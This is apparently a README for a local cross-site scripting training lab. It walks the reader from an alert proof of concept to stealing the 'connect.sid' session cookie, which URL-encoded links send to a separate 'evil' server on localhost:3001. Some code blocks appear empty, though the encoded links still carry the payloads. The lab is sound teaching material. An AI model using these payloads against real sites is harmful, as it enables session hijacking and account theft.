


# Cross-site Scripting (XSS)


Change directory into the new folder:
```bash
cd xss
```

Install the project's dependencies using npm:
```bash
npm install
```

Now we can run the local web server using Node.js:
```bash
node server.js
```
If successful, you should see the following message: `Server listening at localhost:3000`. This means that a local web server is now running and is listening for requests at [localhost:3000](http://localhost:3000/). Open your browser and click the link.

You should see a simple search form. Enter some text then press enter (or click the "search" button). Notice how the search query you entered is shown in the page. This form might be vulnerable to an XSS attack. So let's test it ;)


## What is XSS?

From [OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)):

> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

XSS vulnerabilities are generally used to steal sensitive information (login credentials, authentication tokens, personal user data) as well as perform actions on behalf of authenticated users.


## Proof of Concept

Open the developer tools in your browser (F12) and open the "Console" sub-tab.

Copy/paste the following code into the console and run it:
```js
encodeURIComponent('');
```



Copy the output and paste it into the address bar so that the URL looks like this:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E
```
Or you can click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi')%22%3E).

If successful, you should see an alert pop-up that says "hi!".

Let's see what else we can do..


## Exploitation

Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.



Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html

```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html

```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the evil server. Do you see the contents of the session cookie?